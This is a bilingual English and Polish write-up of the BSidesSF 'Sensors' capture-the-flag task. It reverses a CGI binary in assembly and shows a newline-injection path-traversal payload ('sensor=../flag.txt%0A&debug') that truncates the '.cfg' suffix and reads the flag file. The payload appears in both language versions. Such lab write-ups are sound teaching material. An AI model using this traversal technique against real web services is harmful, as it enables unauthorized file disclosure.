 # Sensors (pwn)

###ENG
[PL](#pl-version)

In the tasks we get access to some web interface of scada-like application.
We quickly notice that in `robots.txt` there is `/firmware` so we proceed there and grab binaries for two pwn tasks.
For this task we focus on [sensor binary](sensor).
The binary has NX, Canary and Fortify so we assume there has to be a way to exploit this without doing any low-level magic.

In robots we can also see that there is `/flag.txt` but the webserver will not give it to us.

This binary sets up a CGI web interface and can be queried by http on the status of some sensors.
We can go to the URL `https://steel-mountain-d2fcf1e0.ctf.bsidessf.net/sensor?sensor=a-1` and this will show the status of `a-1` sensor.

We proceed with reversing the binary, which is statically compiled with come cgi-related library.
We focus on `main` function and `loadSensorConfig` function.
The latter is especially interesting because it opens a file and reads from it - a good target for reading the flag file:

```asm
00000000004015da         mov        r8d, 0x404192                               ; "sensors/%s.cfg", argument #5 for method j___snprintf_chk
00000000004015e0         mov        ecx, 0x80                                   ; argument #4 for method j___snprintf_chk
00000000004015e5         mov        edx, 0x1                                    ; argument #3 for method j___snprintf_chk
00000000004015ea         mov        esi, 0x80                                   ; argument #2 for method j___snprintf_chk
00000000004015ef         xor        eax, eax
00000000004015f1         call       j___snprintf_chk
00000000004015f6         lea        rdi, qword [ss:rsp+0x1a8+var_190]           ; argument "s1" for method j_strcspn
00000000004015fb         mov        esi, 0x4044b4                               ; argument "s2" for method j_strcspn
0000000000401600         call       j_strcspn
0000000000401605         lea        rdi, qword [ss:rsp+0x1a8+var_190]           ; argument "filename" for method j_fopen
000000000040160a         mov        esi, 0x4044cc                               ; argument "mode" for method j_fopen
000000000040160f         mov        byte [ss:rsp+rax+0x1a8+var_190], 0x0
0000000000401614         call       j_fopen
0000000000401619         test       rax, rax
000000000040161c         mov        rbx, rax
000000000040161f         jne        0x401641
;
0000000000401641         lea        rdi, qword [ss:rsp+0x1a8+var_110]           ; argument "str" for method j_fgets, XREF=loadSensorConfig+146
0000000000401649         mov        rdx, rax                                    ; argument "stream" for method j_fgets
000000000040164c         mov        esi, 0x100                                  ; argument "size" for method j_fgets
0000000000401651         call       j_fgets
0000000000401656         test       rax, rax
0000000000401659         mov        rdi, rbx
000000000040165c         jne        0x401665
```

We can also notice that if the loaded file is not a proper configuration of a sensor, it will call:

```asm
000000000040168c         mov        edi, 0x190                                  ; argument #1 for method cgiHeaderStatus
0000000000401691         call       cgiHeaderStatus
0000000000401696         lea        rsi, qword [ss:rsp+0x1a8+var_110]           ; argument #2 for method debug_printf
000000000040169e         mov        edi, 0x4041e8                               ; "Invalid configuration:\\n%s\\n", argument #1 for method debug_printf
00000000004016a3         xor        eax, eax
00000000004016a5         call       debug_printf
00000000004016aa         jmp        0x40163c
``

So it will actually print the contents of the file using `debug_printf`.
Looking at this function tells us that we simply need to set GET parameter `debug` to see the output of this function.

No we have to force the binary to read the flag file instead of the sensor file.
We can see that it calls `snprintf` with format `sensors/%s.cfg` with the input we provide.
If we could smuggle there a nullbyte we could cut the `.cfg` extension, and by using `../` we could go to the proper directory with the flag.
Unfortunately we can't do that because the input is already processed with `strcpy` with the cgi library, so any nullbytes are already removed at this point.
Our next thought was to provide long input, because `snprintf` will write only up to `n` characters, so if the input is long enough we could again end up with final string without `.cfg`.
But this doesn't work either because the cgi library is limiting the length of input parameter and it's always shorter than what we would need.
The `snprintf` has 0x80 bytes in buffer and the parameter is set in main to be at most 0x40 bytes.

But there is one curious thing in the code:

```asm
00000000004015f6         lea        rdi, qword [ss:rsp+0x1a8+var_190]           ; argument "s1" for method j_strcspn
00000000004015fb         mov        esi, 0x4044b4                               ; argument "s2" for method j_strcspn
0000000000401600         call       j_strcspn
0000000000401605         lea        rdi, qword [ss:rsp+0x1a8+var_190]           ; argument "filename" for method j_fopen
000000000040160a         mov        esi, 0x4044cc                               ; argument "mode" for method j_fopen
000000000040160f         mov        byte [ss:rsp+rax+0x1a8+var_190], 0x0
```

As we can see a function `strcspn` is called with our input as one parameter and some constant from `0x4044b4` as another one, and it actually sets 0x0 inside the string formed already by `snprintf` at index returned from `strcspn`! 
So in the end we can actually put a nullbyte there as long as `strcspn` returns index before the `.cfg`
If we look at the constant at `0x4044b4` we can see:

```asm
00000000004044b4         dd         '\x0d\x0a\x00w' 
```

So it seems passing `\r` or `\n` will trigger this.
This means that by passing as input `sensor=../flag.txt%0A` the `snprintf` will create `/sensors/../flag.txt\n.cfg` and then after `strcspn` this will change into `/sensors/../flag.txt\0.cfg` and therefore fopen will ignore `.cfg` opening the flag for us!

So finally running `https://steel-mountain-d2fcf1e0.ctf.bsidessf.net/sensor?sensor=../flag.txt%0A&debug` we get `flag:directory_traversal_in_c`

###PL version

W zadaniu dostajemy dostęp do webowego interfejsu aplikacji scada.
Szybko zauważamy że w `robots.txt` mamy informacje o katalogu `/firmware` z którego wyciągamy dwie binarki do zadań pwn.
W tym zadaniu skupimy się na [aplikacji sensor](sensor).
Binarka ma NX, Canary i Fortify więc spodziewamy się, że należy ją exploitować bez niskopoziomowej magii.

W robots widzimy też że jest `/flag.txt` ale serwer nie chce podać nam tego pliku.

Aplikacja wystawia za pomocą CGI interfejs webowy który pozwala po http odpytywać o stan sensorów.
Możemy iść pod url `https://steel-mountain-d2fcf1e0.ctf.bsidessf.net/sensor?sensor=a-1` i dostaniemy stan sensora `a-1`.

Następnie przechodzimy do reversowania aplikacji, która jest statycznie kompilowana z jakąś biblioteką do cgi.
Skupiamy się na analizie funkcji `main` oraz `loadSensorConfig`.

Ta druga jest szczególnie ciekawa bo otwiera plik i czyta z niego - może da się za jej pomocą odczytać flagę:

```asm
00000000004015da         mov        r8d, 0x404192                               ; "sensors/%s.cfg", argument #5 for method j___snprintf_chk
00000000004015e0         mov        ecx, 0x80                                   ; argument #4 for method j___snprintf_chk
00000000004015e5         mov        edx, 0x1                                    ; argument #3 for method j___snprintf_chk
00000000004015ea         mov        esi, 0x80                                   ; argument #2 for method j___snprintf_chk
00000000004015ef         xor        eax, eax
00000000004015f1         call       j___snprintf_chk
00000000004015f6         lea        rdi, qword [ss:rsp+0x1a8+var_190]           ; argument "s1" for method j_strcspn
00000000004015fb         mov        esi, 0x4044b4                               ; argument "s2" for method j_strcspn
0000000000401600         call       j_strcspn
0000000000401605         lea        rdi, qword [ss:rsp+0x1a8+var_190]           ; argument "filename" for method j_fopen
000000000040160a         mov        esi, 0x4044cc                               ; argument "mode" for method j_fopen
000000000040160f         mov        byte [ss:rsp+rax+0x1a8+var_190], 0x0
0000000000401614         call       j_fopen
0000000000401619         test       rax, rax
000000000040161c         mov        rbx, rax
000000000040161f         jne        0x401641
;
0000000000401641         lea        rdi, qword [ss:rsp+0x1a8+var_110]           ; argument "str" for method j_fgets, XREF=loadSensorConfig+146
0000000000401649         mov        rdx, rax                                    ; argument "stream" for method j_fgets
000000000040164c         mov        esi, 0x100                                  ; argument "size" for method j_fgets
0000000000401651         call       j_fgets
0000000000401656         test       rax, rax
0000000000401659         mov        rdi, rbx
000000000040165c         jne        0x401665
```

Możemy zauważyć też, ze jeśli wczytany plik nie jest poprawną konfiguracją dla sensorów to wykonane zostanie:

```asm
000000000040168c         mov        edi, 0x190                                  ; argument #1 for method cgiHeaderStatus
0000000000401691         call       cgiHeaderStatus
0000000000401696         lea        rsi, qword [ss:rsp+0x1a8+var_110]           ; argument #2 for method debug_printf
000000000040169e         mov        edi, 0x4041e8                               ; "Invalid configuration:\\n%s\\n", argument #1 for method debug_printf
00000000004016a3         xor        eax, eax
00000000004016a5         call       debug_printf
00000000004016aa         jmp        0x40163c
``

Więc ta funkcja wypisze nam zawartość niepoprwanego pliku za pomocą `debug_printf`.
Analiza tej funkcji pozwala stwierdzić że wystarczy ustawić parametr GET `debug` żeby widzieć jej wyniki.

Teraz pozostaje nam zmusić binarke do wczytania flagi zamiast konfiguracji sensora.
Widzimy że wywoływane jest `snprintf` z formatem `sensors/%s.cfg` dla danych które wprowadzimy.
Gydybyśmy mogli przemycić tam nullbyte to końcówka `.cfg` zostałaby ucięta i za pomocą `../` moglibyśmy wyjść do katalogu z flagą i ją odczytać.
Niestety nie możemy tego zrobić bo dane są już wcześnie przetworzone przez `strcpy` w bibliotece cgi i wszystkie nullbyte są usunięte kiedy tu dochodzimy.
Nasza kolejna myśl to wprowadzenie długiego inputu, ponieważ `snprintf` zapisze nie więcej niż `n` znaków, więc gdyby input był odpowiednio długi moglibyśmy znów uzyskać wynikowy string bez `.cfg`.
Niestety to też nie jest możliwe bo biblioteka cgi limituje długość parametru i zawsze jest za krótki.
Funkcja `snprintf` ma bufor na 0x80 znaków a parametry są w main ograniczane do 0x40 bajtów.

Ale w kodzie jest pewna ciekawa rzecz:

```asm
00000000004015f6         lea        rdi, qword [ss:rsp+0x1a8+var_190]           ; argument "s1" for method j_strcspn
00000000004015fb         mov        esi, 0x4044b4                               ; argument "s2" for method j_strcspn
0000000000401600         call       j_strcspn
0000000000401605         lea        rdi, qword [ss:rsp+0x1a8+var_190]           ; argument "filename" for method j_fopen
000000000040160a         mov        esi, 0x4044cc                               ; argument "mode" for method j_fopen
000000000040160f         mov        byte [ss:rsp+rax+0x1a8+var_190], 0x0
```

Jak widać funkcja `strcspn` jest wywoływana z naszym wejściem i jakąś stałą z `0x4044b4` jako drugim parametrem i następnie bajt 0x0 jest ustawiany wewnątrz stringa przygotowanego już przez `snprintf` a takim indeksie jaki zwróci `strcspn`!
Więc możemy ustawić nullbyte o ile `strcspn` zróci indeks przed `.cfg`
Jeśli zerkniemy teraz na stałą pod `0x4044b4` zobaczymy:

```asm
00000000004044b4         dd         '\x0d\x0a\x00w' 
```

Z czego wynika ze wysłanie `\r` lub `\n` da oczekiwany przez nas efekt dodania nullbyte.
To oznacza że dla wejścia `sensor=../flag.txt%0A` `snprintf` utworzy ścieżkę `/sensors/../flag.txt\n.cfg` a następnie po `strcspn` to zostanie zmienione na `/sensors/../flag.txt\0.cfg` a tym samym fopen zignoruje `.cfg` i otworzy dla nas flagę!

Finalnie uruchomienie `https://steel-mountain-d2fcf1e0.ctf.bsidessf.net/sensor?sensor=../flag.txt%0A&debug` daje nam `flag:directory_traversal_in_c`

